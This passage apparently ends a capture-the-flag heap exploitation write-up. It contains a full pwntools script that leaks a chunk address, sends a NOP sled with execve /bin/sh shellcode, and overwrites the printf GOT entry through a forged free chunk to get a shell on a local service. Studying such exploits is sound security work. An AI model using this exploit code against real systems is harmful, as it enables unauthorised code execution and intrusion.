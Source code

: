 ```
[alvaro @ ~] $ rasm2 -a x86 -b 32 'jmp 0x10'
eb0c
```

The first instruction will jump and whatever is written in `BK+4` doesn't matter :). The finally exploit is.

```python
from pwn import *
import re

reloc_printf = 0x0804c004 # ir~printf

conn = remote ('127.0.0.1', 8080)
output = conn.recv()

s = re.search ("\[ALLOC\]\[loc=[a-z,A-z,0-9]+\[size=260\]", output)
dir_shellcode = int(s.group()[12:19],16)
nop = "\x90" * 30
#shellcode from http://shell-storm.org/shellcode/files/shellcode-752.php
shellcode = nop + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

payload = "\xeb\x0c" # jmp_patch
payload += shellcode
payload += "A"* (260 - len(payload))
payload += p32(0x1) # make the next chunk free
payload += p32(reloc_printf - 8)
payload += p32(dir_shellcode)

conn.send (payload + '\n')
conn.interactive()
```

Here our shell

[![asciicast](https://asciinema.org/a/5w0n434idg7l3jfnuak0vmews.png)](https://asciinema.org/a/5w0n434idg7l3jfnuak0vmews) 
